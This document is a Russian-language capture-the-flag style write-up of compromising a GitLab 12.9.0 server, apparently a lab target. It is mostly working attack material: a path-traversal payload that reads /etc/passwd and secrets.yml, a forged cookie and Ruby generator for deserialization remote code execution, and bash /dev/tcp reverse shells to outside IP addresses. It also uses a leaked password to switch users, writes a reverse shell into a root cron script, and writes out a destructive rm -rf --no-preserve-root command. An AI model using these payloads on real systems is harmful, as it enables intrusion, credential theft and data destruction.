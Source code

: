 # Разведка

Открываем в браузере 4f643f0a02e6.ngrok.io.

Видим страницу авторизации гитлаба. Регистрация не отключена, попробуем создать аккаунт. Успешно регистриуемся, в разделе help смотрим версию - у нас gitlab 12.9.0.

Походив немного по публичным репозиториям, находим в коммитах какой-то удаленный файл с кучей паролей пользователей. Сохраняем, пригодится.

# Ищем эксплойт

Спустя несколько минут поисков узнаем, что эта версия гитлаба уязвима к `LFI`:

Необходимо создать 2 проекта, создать в 1 из них `issue`, перенести этот `issue` в другой проект, при этом указав в описании нужный нам файл, например:

`! [mia] (/uploads/ed4aet10d9#4021350eScleaa123b6e1/../../../../../../../../../../../etc/passwd)`

При переносе в другой проект, мы получим доступ к файлу `/etc/passwd`.

# Получаем reverse shell

Вытаскиваем выше описанным способом файл с настройками gitlab.

`[file](/uploads/00000000000000000000000000000000/../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)`

Там указан `secret_key_base`, он используется для подписи куки файлов. Подняв свой гитлаб и указав этот же ключ, мы можем делать валидные куки. А так как из за особенностей git lab мы можем встроить в куку любую команду, то мы получаем RCE.

`
$ curl 'http://4f643f0a02e6.ngrok.io/' -b "remember_user_token=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kibiNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBiYXNoIC1pID4mIC9kZXYvdGNwLzc5LjEzNi4xNzMuMTU5LzEzMzcgMD4mMWAgKS50b19zKTsgX2VyYm91dAY6BkVGOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lbm9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uAAY7ClQ=--432599b62642a46749065c3bbe688bd507e1bc5c"
`

Генерируем эксплойт:

```
$ ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
$ request = ActionDispatch::Request.new(Rails.application.env_config)
$ request.env["action_dispatch.cookies_serializer"] = :marshal
$ cookies = request.cookie_jar
$ erb = ERB.new("<%= `bash -i >& /dev/tcp/95.46.3.95/1337 0>&1` %>")
$ depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
$ cookies.signed[:cookie] = depr
$ puts cookies[:cookie]
```

Мы получили `reverse shell`. Прописав whoami понимаем, что мы под юзером `gitlab`. Выведем содержимое `/home`:
```
$ ls /home
nikol
```

Вспоминаем про файл с какими-то паролями, находим в нем пароль юзера `nikol` - `helloluc4`

Прописываем `su nikol` и получаем ошибку:

`su must be run from terminal`

Идем гуглить, находим [решение на stackoverflow](https://stackoverflow.com/questions/36944634/su-command-in-docker-returns-must-be-run-from-terminal/41872292):

```
$ echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
$ python /tmp/asdf.py
```

Логинимся под юзером `nikol`:

```
$ su nikol
Enter password: helloluc4
```

# Поднимаем рута

Запустим тулзу `LinEnum` для сбора информации:

```
$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

Видим, что в `cron` висит какой-то `script.sh`. Вычисляем, что он находится в директории `/home/nikol/script.sh` и выезжаем за ним:

```
$ cd /home/nikol
$ ls -la
```

Этим файлом владеет `root` и мы имеем право в него что-то писать.

Пропишем туда ~~rm -rf / --no-preserve-root~~ подключение к нашему компу, чтобы получить обратный шелл, перед этим начав слушать порт 1337:
```
$ echo "bash -i >& /dev/tcp/95.46.3.95/1337 0>&1" > script.sh

```

Получаем обратный шелл от рута. Легчайшая. Для кого? Для величайших хакеров всея руси.

# Эпилог 

Внезапно из ниоткуда пришел злой сисадмин и начал безжалостно уничтожать все обратные шеллы:

```
$ killall bash
```

Закрепиться на машине или прописать `rm -rf --no-preserve-root`, вот в чем вопрос?

```
$ rm -rf --no-preserve-root
```

![alt text](https://i.pinimg.com/originals/4f/ce/c7/4fcec737c161fed5c37cb2198b777b81.jpg)